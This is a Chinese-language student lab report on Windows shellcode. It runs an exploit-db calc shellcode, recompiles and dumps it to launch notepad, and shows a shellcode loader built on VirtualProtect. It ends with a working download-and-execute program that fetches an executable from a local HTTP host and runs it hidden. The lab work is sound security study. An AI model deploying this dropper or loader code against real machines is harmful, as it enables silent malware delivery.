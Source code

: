 ## shellcode实验



### **实验要求**

- [x] 把[链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行
- [x] 能从汇编源码编译通过并成功dump
- [x]  自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理
- [x] 修改shellcode功能为运行记事本程序notepad. exe
- [ ] (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）


### **实验过程**

**1. 把[链接](https://www.exploit-db.com/shellcodes/48116)中shellcode能够成功运行**

- 关闭数据执行保护

	![](./img/关闭数据执行保护.PNG)

- 源文件要保存为.c文件

- 复制执行代码即可成功运行

	![](./img/calc.gif)


**2. 能从汇编源码编译通过并成功dump**

- 将代码复制粘贴到kali中并存成win32-WinExec_Calc-Exit.asm文件

	```
	nasm -f win32 win32-WinExec_Calc-Exit.asm -o win32-WinExec_Calc-Exit.o
	```

- 将.asm文件编译成.o文件

	```
	for i in $(objdump -D win32-WinExec_Calc-Exit.o | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
	```
执行结果如下

![](./img/calc编译通过.PNG)


**3. 自行查阅资料，搜索Windows PEB结构体，PE文件导入表导出表相关数据结构的文档，解读shellcode原理**


![](./img/PE文件格式.jpg)

**4. 修改shellcode功能为运行记事本程序notepad. exe**

首先修改汇编源码,修改处只在`push`的地方

![](./img/修改notepad.PNG)


使用vimdiff工具观察两个.asm文件的不同

![](./img/使用vimdiff查看不同.PNG)

从汇编源码编译通过并成功dump

![](./img/notepad编译通过.PNG)






执行main函数即可
```
int main(int argc, char** argv)
{
	int (*func)();
	DWORD old_protect;
	VirtualProtect(code, sizeof(code), PAGE_EXECUTE_READWRITE, &old_protect);
	func = (int(*)()) code;
	(int)(*func)();
}
```

结果如图

![](./img/notepad.PNG)


PS:代码什么都没动，但是后续再执行的时候，notepad无法自动弹出，故暂时保留之前的截图QAQ

**5. (选做，难度较大)修改shellcode功能为下载执行器，即下下载一个可执行文件，然后再运行（提示，使用原生API UrlDownloadToFileA）**


代码
```
#include<Windows.h>
#include<urlmon.h>

typedef int(WINAPI* MY_DOWNLOAD_PROC)(LPUNKNOWN, LPCSTR, LPCSTR, DWORD, LPBINDSTATUSCALLBACK);

int main() {
	//可以加载dll，根据函数名获得函数地址


	HMODULE hurlomd = LoadLibraryA("urlmon.dll");

	//GetProcAddress之前要想获得函数要遍历导出表
	//void* function_ptr = GetProcAddress(hurlomd, "URLDownloadToFileA");//urlmon.dll不会出现在导入表里，但是可以调用
	MY_DOWNLOAD_PROC function_ptr = (MY_DOWNLOAD_PROC)GetProcAddress(hurlomd, "URLDownloadToFileA");

	function_ptr(NULL, "http://10.195.24.35:8000/notepad.exe", "a.exe", 0, NULL);
	WinExec("a.exe", SW_HIDE);

}
```

在本地开启http server服务

![](./img/开启httpserver.PNG)

切换到Debug目录下后，点击即下载notepad.exe(功能：自动弹出记事本)

![](./img/点击即下载.PNG)

且运行上述代码后，会自动生成一个a.exe

![](./img/生成a.exe.PNG)

执行结果如下

![](./img/下载执行器.gif)

### **遇到的问题和解决方法**

1. 把[链接](https://www.exploit-db.com/shellcodes/48116)中shellcode程序无法正常运行，更改为.c文件即可


